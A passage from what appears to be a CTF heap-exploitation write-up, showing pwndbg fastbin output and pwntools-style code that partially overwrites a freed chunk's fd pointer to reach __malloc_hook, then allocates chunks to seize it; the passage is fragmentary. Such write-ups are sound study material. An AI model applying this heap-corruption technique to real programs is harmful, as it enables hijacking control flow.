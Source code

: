 

Debug to see the status of `fastbin` at this time


 



```

pwndbg> fastbins 

fastbins

0x20: 0x0

0x30: 0x0

0x40: 0x0

0x50: 0x0

0x60: 0x0

0x70: 0x555555757160 —▸ 0x555555757020 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x7ffff7dd1b78

0x80: 0x0

```



&gt; `0x555555757020` is `chunk B`


Then by modifying the low `2` bytes of `B-&gt;fd`, make `B-&gt;fd= malloc_hook - 0x23`


 



```

# malloc_hook above
malloc_hook_nearly = "\xed\x1a"

edit(1,malloc_hook_nearly)

Info(&quot;Partial write, modify fastbin-&gt;fd ---&gt; malloc_hook&quot;)


```



Then allocate `3` ``xk` of `0x70`, and you can get the `chunk` where `malloc_hook` is located.

 



```

create(0x65,0)

create(0x65,0)

create(0x65,0)

```
